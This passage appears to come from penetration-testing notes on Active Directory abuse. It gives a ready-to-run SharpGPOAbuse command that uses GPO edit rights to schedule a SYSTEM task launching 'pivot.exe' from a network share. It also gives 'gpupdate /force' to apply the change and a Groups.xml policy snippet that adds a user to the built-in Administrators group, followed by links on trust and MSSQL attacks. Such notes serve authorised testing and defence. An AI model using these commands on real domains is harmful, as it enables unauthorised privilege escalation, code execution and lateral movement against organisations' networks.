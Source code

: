 can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"
```

https://github.com/FSecureLABS/SharpGPOAbuse

##### Force Policy Update

The previous abusive **GPO updates are reloaded** roughly each 90 minutes. if you have access to the computer you can force it with `gpupdate /force` .

##### Users and Groups

we could change the user to something else, add another one or even add the user to another group/multiple groups

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
    <Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-12-20 14:08:39" uid="{300BCC33-237E-4FBA-8E4D-D8C3BE2BB836}">
        <Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)">
            <Members>
                <Member name="spotless" action="ADD" sid="" />
            </Members>
        </Properties>
    </Group>
</Groups>
```


### Trust Relationships

https://www.thehacker.recipes/ad/movement/trusts

https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/attack-trusts

### MSSQL AD Abuse

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql
